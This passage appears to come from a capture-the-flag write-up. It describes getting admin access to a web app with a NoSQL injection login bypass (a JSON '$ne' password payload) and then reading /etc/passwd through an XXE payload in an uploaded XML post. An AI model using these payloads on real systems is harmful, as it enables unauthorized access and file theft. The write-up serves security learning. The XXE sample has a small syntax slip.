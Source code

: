 
Some simple sql and nosql auth bypasses didn't yield expected
results, but one of them did, along with changing Content-Type
to application/json, which is accepted by page without problems:  

```json
{
    "user":"admin",
    "password":{
        "$ne":"admin"
    }
}
```

Seems this page is vulerable to nosql injection, as above payload
gives us access to admin page:   

![](admin.jpg)

# Read source code

After trying to upload "posts", which are just xml files of exact
structure, we discover XXE vulnerability, granting us arbitrary file read,
with following payload:

```xml
<!DOCTYPE test [
    <!ENTITY example SYSTEM "file:///etc/passwd"
]>

<post>
    <title>test</title>
    <description> &example; </description>
    <markdown>test</markdown>
</post>
```
